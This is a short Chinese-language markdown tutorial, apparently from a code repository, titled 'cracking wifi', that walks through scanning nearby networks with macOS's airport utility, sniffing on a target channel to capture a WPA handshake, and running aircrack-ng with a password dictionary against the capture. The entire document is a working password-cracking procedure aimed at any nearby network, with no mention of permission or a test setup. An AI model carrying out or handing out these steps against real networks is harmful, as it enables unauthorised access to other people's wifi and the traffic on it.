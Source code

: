 ```yaml
---
title: 破解wifi
---
```


### 准备安装macport和aircrack-ng 百度有很多

### 通过airport查看附近的wifi
#### 1.没有把airport添加到系统命令的
    sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport -s
#### 2.把airport添加到系统命令
    sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/Cellar/aircrack-ng

### 开始查看附近的wifi 
    airport -s

### SSID 是 wifi名称，RSSI 是信号强度，CHANNEL 是信道。选择RSSI比较小的，越小信号越强，可以这么理解

### 查看自己的网卡信息
    点击桌面左上角的苹果   系统信息   系统报告   wifi  看是en0还是en1

### 看是抓包
    sudo airport en0 sniff 1    //en0是你的网卡的信息，1是你要破解的wifi的信道CHANNEL
### 打开finder，快捷键是： command+alt+space  点击左上角的：前往 或者快捷键是comman+shift+g  查看刚刚的抓包文件
    /tmp

### 在桌面上创建一个文件夹wifi   把刚刚的抓包文件和密码字典放一起 分别命名为01

### 查看是否抓到包
    cd ~/Desktop/wifi
    aircrack-ng -w 01.txt 01.cap

### 在命令行里面查找1 handshake command+f 快捷键：command+f，并查看对应的行数 ，拉到命令行的最下方找到：index number of target network ?     在其后面输入刚刚对应的行数


### 接下来就是漫长的等待